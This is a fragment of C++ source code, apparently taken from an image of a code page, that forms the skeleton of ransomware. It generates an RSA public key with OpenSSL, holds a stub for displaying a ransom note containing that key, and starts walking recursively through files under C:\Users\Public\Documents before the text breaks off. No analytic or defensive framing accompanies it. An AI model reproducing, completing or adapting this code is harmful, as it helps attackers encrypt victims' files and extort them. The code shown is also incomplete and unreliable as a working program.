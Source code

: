 ```cpp
    BIGNUM* e = BN_new();

    BN_set_word(e, RSA_F4);



    RSA_generate_key_ex(rsa, 2048, e, nullptr);

    BIO* bio = BIO_new(BIO_s_mem());

    PEM_write_bio_RSAPublicKey(bio, rsa);

    

    char* publicKey;

    long len = BIO_get_mem_data(bio, &publicKey);

    std::string publicKeyString(publicKey, len);



    BIO_free_all(bio);

    RSA_free(rsa);

    BN_free(e);



    return publicKeyString;

}



void displayRansomNote(const std::string& publicKey)

{

    // Insert code to display ransom note with the generated public key

}



int main()

{

    std::string targetDirectory = "C:\\Users\\Public\\Documents\\";

    std::string publicKey = generatePublicKey();



    std::filesystem::recursive_directory_iterator it(targetDirectory), end;

    while (it != end)

    {

        if (std::filesystem::is_regular_file(*it))
```